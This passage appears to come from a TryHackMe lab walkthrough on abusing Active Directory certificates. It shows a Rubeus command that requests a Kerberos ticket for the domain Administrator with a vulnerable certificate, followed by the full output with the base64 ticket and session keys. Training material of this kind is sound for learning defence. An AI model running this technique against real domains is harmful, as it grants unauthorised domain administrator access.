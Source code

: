 Once we execute the command, we should receive our TGT:

```shell-session
za\aaron.jones@THMWRK1 C:\Users\aaron.jones>C:\Tools\Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:vulncert.pfx /password:tryhackme /outfile:administrator.kirbi /domain:za.tryhackme.loc /dc:10.200.x.101
          ______        _
         (_____ \      | |
          _____) )_   _| |__  _____ _   _  ___
         |  __  /| | | |  _ \| ___ | | | |/___)
         | |  \ \| |_| | |_) ) ____| |_| |___ |
         |_|   |_|____/|____/|_____)____/(___/
       
         v2.0.0
       
       [*] Action: Ask TGT
       
       [*] Using PKINIT with etype aes256_cts_hmac_sha1 and subject: CN=vulncert
       [*] Building AS-REQ (w/ PKINIT preauth) for: 'za.tryhackme.loc\Administrator'
       [+] TGT request successful!
       [*] base64(ticket.kirbi):
       
             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
       
         ServiceName              :  krbtgt/za.tryhackme.loc
         ServiceRealm             :  za.tryhackme.loc
         UserName                 :  Administrator
         UserRealm                :  za.tryhackme.loc
         StartTime                :  2/6/2022 5:54:46 PM
         EndTime                  :  2/7/2022 3:54:46 AM
         RenewTill                :  2/13/2022 5:54:46 PM
         Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
         KeyType                  :  aes256_cts_hmac_sha1
         Base64(key)              :  Qr+FUX+/G2jHgAR2ssW11+lhaPlB6dMD8V5/rENwJVU=
         ASREP (key)              :  BF2483247FA4CB89DA0417DFEC7FC57C79170BAB55497E0C45F19D976FD617ED
```
